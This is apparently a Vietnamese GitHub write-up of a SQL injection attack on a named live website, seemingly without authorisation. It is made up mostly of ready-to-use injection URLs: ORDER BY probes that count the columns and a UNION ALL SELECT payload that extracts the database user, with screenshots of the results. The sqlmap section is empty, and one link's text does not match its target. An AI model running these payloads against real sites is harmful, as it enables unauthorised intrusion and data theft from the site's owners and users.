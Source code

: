 # TỔNG QUAN # 

Kiểm tra trên web "CMKOO" `[http://www.gis.gov.bd/en/gis_file.php?id=9](http://www.cmkoo.com.hk/en/news/news.php?id=28)`


## CÁC BƯỚC

* [Dò tìm số cột](#dò-tìm-số-cột)
* [Kiểm tra database, version, user](#kiểm-tra-database-version-user)
* [Trích xuất cơ sở dữ liệu](#trích-xuất-cơ-sở-dữ-liệu)
* [Sử dụng `sqlmap`](#sử-dụng-sqlmap)

## Dò tìm số cột

`http://www.cmkoo.com.hk/en/news/news.php?id=28+ORDER+BY+1`

![image](https://github.com/user-attachments/assets/a84108f8-bb63-4406-97da-9aacbbc9ec96)

`http://www.cmkoo.com.hk/en/news/news.php?id=28+ORDER+BY+20`

![image](https://github.com/user-attachments/assets/cdf0c4bd-a4b1-4b35-a12b-a3438af00070)

=> Số cột lớn hơn 1 và bé hơn 20 

`http://www.cmkoo.com.hk/en/news/news.php?id=28+ORDER+BY+16`

![image](https://github.com/user-attachments/assets/d238751e-d552-4ec0-a288-b0470fc9d980)

=> Số cột là 16

## Kiểm tra database, version, user 

**1. User**

`http://www.cmkoo.com.hk/en/news/news.php?id=28+UNION+ALL+SELECT+1,2,3,4,user,6,7,8,9,10,11,12,13,14,15,16+from+user.cmkoo_com_hk`

![image](https://github.com/user-attachments/assets/c526f1a8-0a8e-4fd3-a7ce-45cd9828ccb4)

**2. Database**

![image](https://github.com/user-attachments/assets/c526f1a8-0a8e-4fd3-a7ce-45cd9828ccb4)

Trang sử dụng MySQL theo thông tin ở `error info`

## Sử dụng `sqlmap`



